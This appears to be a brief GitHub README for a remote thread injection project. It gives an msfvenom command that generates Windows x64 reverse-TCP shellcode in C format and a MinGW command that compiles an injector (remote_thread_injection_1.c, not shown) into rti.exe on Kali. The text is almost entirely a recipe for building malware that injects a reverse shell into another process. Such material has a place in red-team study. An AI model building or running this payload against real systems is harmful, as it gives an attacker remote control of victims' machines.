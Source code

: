 # remote-thread-injection
create your shellcode and insert it in code:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

compile it in kali using **MinGW**:
```sh
x86_64-w64-mingw32-gcc remote_thread_injection_1.c -o rti.exe
```
